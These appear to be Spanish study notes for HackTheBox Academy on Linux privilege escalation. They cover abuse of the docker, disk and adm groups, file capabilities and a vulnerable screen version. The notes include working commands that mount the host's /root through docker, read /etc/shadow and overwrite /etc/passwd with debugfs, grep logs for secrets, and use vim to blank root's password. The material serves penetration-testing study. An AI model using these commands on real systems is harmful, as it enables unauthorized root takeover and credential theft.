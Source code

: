 Más info en [htb](https://academy.hackthebox.com/module/51/section/2411)
##### Docker shared directories - Desde container
- Podemos buscar información que no es común en el contenedor, como `/hostsystem` (ejemplo de htb) y desde allí obtener información sensible o modificar lo que queramos
##### Permisos del grupo docker
- Podemos montar una instancia de docker con `/root` de la máquina host  montado como `/mnt` en la instancia
	```bash
	docker run -v /root:/mnt -it ubuntu
	```
#### Disk
- Tienen acceso a todos los dispositivos dentro de `/dev`, como `/dev/sda1`, que es el dispositivo en el que suele estar montado el sistema operativo. Con `debugfs` se accedería al sistema de archivos
	```bash
	debugfs /dev/sda1
	# Leer archivos
	cat /etc/shadow
	# Mover archivos (permite escribir, pero no modificar directamente)
	write /home/user/hack_passwd /etc/passwd
	```
#### ADM
- No permite escalar privilegios a `/root`, pero permite leer todos los logs alojados en `/var/log`. Algún comando como el siguiente podría ser interesante
	```bash
	grep -iE 'password|passwd|token|login|user|secret' /var/log/* 2>/dev/null
	grep -iE 'sshpass' /var/log/* 2>/dev/null
	```
### Capabilities
Más en [htb](https://academy.hackthebox.com/module/51/section/1844)
 - Enumeración
	```bash
	find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
	```
- Explotación :  [GTOFBINS](https://gtfobins.github.io/#+capabilities)
- Ejemplo :
	```bash
	# Encontramos la siguiente capacidad que permite reescribir archivos
	/usr/bin/vim.basic = cap_dac_override+eip
	# Utilizamos vim para hacer que el usuario root tenga el campo contraseña vacío en /etc/passwd (no pass)
	echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
	```
## Escalada basada en servicios
### Servicios vulnerables
#### Screen
Se pone como ejemplo como explotar esta vulnerabilidad, para la versión `4.05.0` de screen
```bash
screen -v
searchsploit screen 4.5.0
# encontramos un script que nos permite escalar privilegios
```